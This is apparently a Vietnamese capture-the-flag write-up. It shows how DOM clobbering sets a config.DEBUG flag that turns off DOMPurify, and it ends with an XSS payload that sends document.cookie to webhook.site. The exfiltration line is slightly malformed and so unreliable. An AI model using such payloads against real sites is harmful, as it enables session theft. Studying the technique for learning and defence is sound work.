 ![image](https://github.com/user-attachments/assets/123fcf8e-cb02-4a47-8f22-dae4a971b6bf)

```
document.addEventListener("DOMContentLoaded", () => {
	const urlParams = new URLSearchParams(window.location.search);
	const title = atob(urlParams.get("title"));
	const content = atob(urlParams.get("content"));
	document.getElementById("title").innerHTML =
		DOMPurify.sanitize(title);
	if (typeof config !== "undefined" && config.DEBUG) {
		document.getElementById("content").innerHTML = content;
	} else {
		document.getElementById("content").innerHTML =
			DOMPurify.sanitize(content);
	}
});
```
Đoạn code sanitize cả title và content nên ta ko thể xss được ngoại trù trường hợp biến config và config.DEBUG tồn tại. Tuy DOMPurify.sanitize có thể lọc xss nhưng nó lại ko lọc các tag bình thường như <p> , <a> nên ta có thể dùng kỹ thuật DOM clobbering

# payload
title:  
```<p id="config"></p><p id="config" name="DEBUG">true</p>```
content:  
```<img src=x onerror="fetch('//https://webhook.site/?' + document.cookie")>```

